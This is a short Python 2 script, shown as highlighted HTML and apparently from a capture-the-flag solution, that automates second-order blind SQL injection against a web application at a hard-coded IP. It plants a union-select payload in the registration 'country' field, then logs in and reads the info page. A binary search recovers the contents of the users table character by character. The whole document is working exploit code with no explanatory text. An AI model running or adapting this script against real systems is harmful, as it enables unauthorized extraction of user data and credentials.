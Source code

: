 <pre class="prettyprint"><code class=" hljs python"><span class="hljs-comment"># coding:utf-8</span>
<span class="hljs-keyword">import</span> requests
<span class="hljs-keyword">from</span> math <span class="hljs-keyword">import</span> ceil
<span class="hljs-keyword">import</span> re
<span class="hljs-keyword">from</span> random <span class="hljs-keyword">import</span> *
<span class="hljs-keyword">global</span> string
string = <span class="hljs-string">''</span>

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">dichotomie</span><span class="hljs-params">(l,r,i)</span>:</span><span class="hljs-comment">#利用二分法查找</span>

    mid = (l+r)/<span class="hljs-number">2</span>
    <span class="hljs-comment"># print "l and r ,mid:",l,r,mid</span>
    <span class="hljs-keyword">if</span> l == r:
        <span class="hljs-keyword">global</span> string
        string += chr(r)
        <span class="hljs-keyword">print</span> string
        <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>
    <span class="hljs-keyword">if</span> charge(mid,i):<span class="hljs-comment">#&lt;=</span>
        <span class="hljs-comment">#print 0</span>
        dichotomie(l,mid,i)
    <span class="hljs-keyword">else</span>:
        <span class="hljs-comment">#print 1</span>
        dichotomie(int(ceil((l+r)*<span class="hljs-number">1.0</span>/<span class="hljs-number">2</span>)),r,i)

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">charge</span><span class="hljs-params">(mid,i)</span>:</span>
    payload = <span class="hljs-string">"'or(select(ascii(substr(group_concat(c),{}))&lt;={}) from (select 1,2,3`c`,4,5 union(select*from(users)))`b`) #"</span>.format(i,mid)
    login = requests.session()
    username = <span class="hljs-string">"4ct10n"</span>+str(randint(<span class="hljs-number">1</span>,<span class="hljs-number">10000000</span>))
    data = {
    <span class="hljs-string">'username'</span>:username,
    <span class="hljs-string">'password'</span>:<span class="hljs-string">'1'</span>,
    <span class="hljs-string">'address'</span>:<span class="hljs-string">'1'</span>,
    <span class="hljs-string">'country'</span>:payload
    }
    login.post(<span class="hljs-string">'http://39.108.192.25:5005/register.php'</span>,data=data)
    data = {
    <span class="hljs-string">'username'</span>:username,
    <span class="hljs-string">'password'</span>:<span class="hljs-string">'1'</span>
    }
    login.post(<span class="hljs-string">'http://39.108.192.25:5005/login.php'</span>,data=data)
    res = login.get(<span class="hljs-string">'http://39.108.192.25:5005/index.php?page=info'</span>)
    string = res.content
    r = re.findall(<span class="hljs-string">'2017-07-01 (.*)&lt;/em&gt;'</span>,string)[<span class="hljs-number">0</span>][<span class="hljs-number">0</span>:<span class="hljs-number">2</span>]
    <span class="hljs-comment"># print r</span>
    <span class="hljs-keyword">if</span> r == <span class="hljs-string">'05'</span>:
        <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>
    <span class="hljs-keyword">else</span>:
        <span class="hljs-keyword">return</span> <span class="hljs-number">1</span>
    <span class="hljs-comment"># print data</span>
<span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">100</span>):
    dichotomie(<span class="hljs-number">32</span>,<span class="hljs-number">127</span>,i)
<span class="hljs-keyword">print</span> string</code></pre></div>